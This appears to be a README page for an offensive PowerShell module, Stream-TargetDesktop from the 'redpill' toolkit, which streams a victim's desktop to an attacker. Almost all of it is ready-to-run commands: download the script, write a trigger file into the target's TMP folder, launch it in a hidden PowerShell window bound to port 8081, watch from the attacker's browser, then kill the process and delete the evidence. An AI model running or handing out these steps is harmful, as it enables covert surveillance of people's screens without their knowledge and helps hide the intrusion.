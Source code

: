 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|[Stream-TargetDesktop](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1)|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG (attacker PC)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "Stream-TargetDesktop.ps1"
```

<br />

**execute:**
```powershell
#Build triggers script (remote)
echo "Import-Module -Name $Env:TMP\Stream-TargetDesktop.ps1 -Force"|Out-File -FilePath "$Env:TMP\trigger.ps1" -Encoding ascii -Force
Add-Content -Path "$Env:TMP\trigger.ps1" -Value "TargetScreen -Bind -Port 8081"


#Start capture desktop (remote)
Start-Process -WindowStyle hidden powershell -ArgumentList "-File $Env:TMP\trigger.ps1"

#Access live stream (attacker)
Start firefox on: "http://${RemoteHost}:8081"


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|?{ $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
